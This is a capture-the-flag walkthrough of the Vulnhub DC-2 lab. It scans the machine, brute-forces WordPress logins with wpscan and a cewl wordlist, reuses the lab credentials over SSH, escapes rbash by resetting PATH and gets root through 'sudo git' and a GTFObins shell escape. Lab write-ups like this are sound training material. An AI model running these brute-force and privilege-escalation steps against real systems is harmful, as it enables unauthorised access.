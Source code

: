 ```yaml
---
"title": "Vulnhub - DC 2"
"date": 2019-11-15
"tags": ["wordpress", "easy", "sudo", "rbash"]
"keywords": ["wordpress", "easy", "sudo", "rbash"]
"categories": "Vulnhub"
"author": "Ghostbyt3"
"description": "Today, We are going to pwn DC 2 by DCAU7 from Vulnhub"
"featured_image": "/img/dc2/1.1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc2/1.1.png)
Today, We are going to pwn DC 2 by DCAU7 from Vulnhub


## Description

>Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
As with the original DC-1, it's designed with beginners in mind.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
Just like with DC-1, there are five flags including the final flag.
And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.
In short, the only flag that really counts, is the final flag.
For beginners, Google is your friend. Well, apart from all the privacy concerns etc etc.
I haven't explored all the ways to achieve root, as I scrapped the previous version I had been working on, and started completely fresh apart from the base OS install.

Download link : [https://www.vulnhub.com/entry/dc-2,311/](https://www.vulnhub.com/entry/dc-2,311/)

Lets begin with our initial nmap scan

## Nmap Scan Results

```
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since there is HTTP port open, I gonna start my Gobuster

## Gobuster Results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.4
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/23 12:21:05 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/23 12:21:07 Finished
===============================================================
```


Its a Wordpress site 
``Flag 1``

![Untitled](/img/dc2/1.png)

It gives us a hint that our usual wordlist wont help us in bruteforcing the password instead cewl this page.

> cewl - custom word list generator

![Untitled](/img/dc2/2.png)

I created the wordlist now

We know its a wordpress site so we can start our wpscan to enumerate users

![Untitled](/img/dc2/3-0.png)

> We have 3 users - admin,tom,jerry

## Bruteforcing the users

So lets start our bruteforce using the wordlist we created from cewl.

> wpscan --url http://dc-2/ -P pass.out -U admin
![Untitled](/img/dc2/3.png)

> wpscan --url http://dc-2/ -P pass.out -U tom
![Untitled](/img/dc2/4.png)

> wpscan --url http://dc-2/ -P pass.out -U jerry
![Untitled](/img/dc2/5.png)

## Getting Shell

I logged in with jerry
Found ``Flag 2``

![Untitled](/img/dc2/6.png)




There is no templates or plugins so i tried login with the creds in ssh which is running in the port 7744

![Untitled](/img/dc2/7.png)

I cant login with jerry but its working with ``tom:parturient``

I found flag3 but cant view them it shows some error called ``-rbash``[br/](br/) 
![Untitled](/img/dc2/8.png)

While googling i came to know it because of problem in PATH variable.
So i copied my system PATH and export them, now its working perfectly!!

![Untitled](/img/dc2/9.png)

>export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

According to ``Flag 3`` I came to know we can su , so i su to ``jerry:adipiscing``

and got ``Flag 4``

## Privilege Escalation

![Untitled](/img/dc2/10.png)

This shows we can run ``git`` without root password

>https://gtfobins.github.io/gtfobins/git/

```
sudo git -p help config
!/bin/sh
```

![Untitled](/img/dc2/11.png)
.[br/](br/)
.[br/](br/)
.[br/](br/)
![Untitled](/img/dc2/12.png)

I did according to ``GTFObins``

Got ROOT and Final Flag!!!



 
